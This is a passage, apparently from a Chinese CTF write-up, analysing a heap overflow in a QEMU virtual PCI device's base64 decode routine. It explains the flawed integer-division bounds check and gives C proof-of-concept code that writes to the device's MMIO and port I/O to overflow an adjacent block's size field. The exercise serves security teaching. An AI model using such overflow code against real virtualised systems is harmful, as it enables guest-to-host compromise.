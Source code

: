 其opaque->decode调用的pipe_decode函数，不处理第三个size参数，所以解码过程，是直到扫描到输入字符串的空字符才结束。虽然useSize也是使用strlen进行了判断：

```c
3 * (useSize / 4) + 1 <= 0x40
```

这里判断的标准边界应为`((0x40 - 1)/3)*4 == 84`，但是因为c语言整型的除法，84 到 87 这四个整数，都可以满足本判断，而size为87即可在解码时溢出后续数据。使用0xff进行base64编码作为测试数据，这样在解码后得到的溢出字符为0xff，如果后续溢出size，0xff位最大值：

```python
>>> from pwn import *
>>> b64e(b'\xff\xff\xff')
'////'
```

测试代码如下：

```c
#include <stdint.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/io.h>

void * mmio;
int port_base = 0xc040; 

void pmio_write(int port, int val){ outl(val, port_base + port); }
void mmio_write(uint64_t addr, char value){ *(char *)(mmio + addr) = value;}
int  pmio_read(int port) { return inl(port_base + port); }
char mmio_read(uint64_t addr){ return *(char *)(mmio + addr); }

void write_block(int idx,int size,int offset, char * data){
    pmio_write(0,idx); pmio_write(4,size);
    for(int i=0;i<strlen(data);i++) { mmio_write(i+offset,data[i]); }
}

int main(){
    // init mmio and pmio
    iopl(3);
    int  mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    mmio         = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);

    // write '/'*87 to block 2
    char data[100];
    memset(data,0,100);
    memset(data,'/',87);
    write_block(2,0x5c,0,data);

    // decode block 2 to block 6, it will overflow block 7 size
    pmio_write(16,0);

    return 0;
}
```
